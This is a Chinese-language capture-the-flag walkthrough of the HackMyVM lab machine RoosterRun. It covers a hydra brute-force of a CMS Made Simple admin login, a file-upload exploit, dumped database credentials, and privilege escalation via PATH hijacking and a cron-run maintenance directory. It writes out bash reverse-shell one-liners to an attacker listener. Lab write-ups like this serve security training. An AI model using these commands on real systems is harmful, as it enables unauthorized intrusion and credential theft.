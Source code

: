 # RoosterRun

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=RoosterRun

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 发现 CMS: CMS Made Simple version 2.2.9.1 找到登陆窗口 http://192.168.5.40/admin/login.php ，在 news 中看到了一个用户名 admin 进行一下爆破：

```
hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt 192.168.5.40 -f http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:F=User name or password incorrect"

[80][http-post-form] host: 192.168.5.40   login: admin   password: homeandaway
```

找到了管理员密码，登陆到系统，参照 https://www.exploit-db.com/exploits/48742 这里在 FileManager 中可以上传 pthml 文件，进而执行代码。

上传至 upload 文件夹上，然后访问，就会在 kali 上得到反弹的 shell。

发现这个 CMS 的数据库配置文件：

```
www-data@rooSter-Run:/var/www/html$ cat config.php
<?php
# CMS Made Simple Configuration File
# Documentation: https://docs.cmsmadesimple.org/configuration/config-file/config-reference
#
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'admin';
$config['db_password'] = 'j42W9kDq9dN9hK';
$config['db_name'] = 'cmsms_db';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'Europe/Berlin';
```

但是这个密码不是用户 matthieu 的。

/opt 目录被设置了 acl，进行更详细查看：

```
getfacl -R -s -p / 2>/dev/null

# file: //usr/local/bin
# owner: root
# group: root
user::rwx
user:www-data:rwx
user:matthieu:r-x
group::---
mask::rwx
other::---
```

发现 www-data 用户可以修改 /usr/local/bin , 同时 /usr/local/bin 在 $PATH 中第二项。

在 /home/matthieu/中发现一个脚本 StaleFinder ，其中的 echo 没有使用全局路径，在 /usr/bin 中有 echo，但是 /usr/local/bin 这个在 PATH 中比/usr/bin 位置靠前，可以进行命令劫持。

盲猜 StaleFinder 脚本应该是某个用户执行的定时任务，这里看到第一行 #!/usr/bin/env bash ，会从 path 环境变量中查找 bash ，然后在用这个 bash 执行解析脚本。这里利用上面的/usr/local/bin 可写，可以劫持 bash 命令：

```
echo -e '#!/bin/bash\n/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > /usr/local/bin/bash
chmod +x /usr/local/bin/bash
```

同时在 kali 上创建监听，等待反弹。

拿到了 user flag:

```
matthieu@rooSter-Run:~$ cat user.txt
32af3c9a9cb2fb748aef29457d8cff55
```

在 /opt/maintenance 中发现 backup.sh 文件，pre-prod-tasks 和 prod-tasks 文件夹对其他用户有写权限，最后执行 /usr/bin/run-parts /opt/maintenance/prod-tasks 中的脚本文件。

if -O 参数会检测当前执行脚本的用户 id 和这个文件的所属用户的 id 是否一致，一致返回 true。换句话就是这个文件是否是属于当前执行 if 判断命令的用户：

```
if [ -O /etc/passwd ]; then echo "owner"; else echo "not owner"; fi
```

向 pre-prod-tasks 中写入 sh 脚本:

```
echo -e '#!/bin/bash\n/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8889 0>&1"' > /opt/maintenance/pre-prod-tasks/run.sh; chmod +x /opt/maintenance/pre-prod-tasks/run.sh
```

/usr/bin/run-parts 默认情况下执行的脚本不能带扩展名(如果没有给出 --lsbsysinit 选项或 --regex 选项，则名称必须完全由 ASCII 大写和小写字母、ASCII 数字、ASCII 下划线和 ASCII 减号连字符组成)，所以在文件执行 cp 后，执行 mv 操作去掉 sh 后缀：

```
matthieu@rooSter-Run:/opt/maintenance/prod-tasks$ mv run.sh run
```

等待 1 分钟，反弹 shell 执行，拿到了最终的 flag:

```
cat root.txt
670ff72e9d8099ac39c74c080348ec17
```
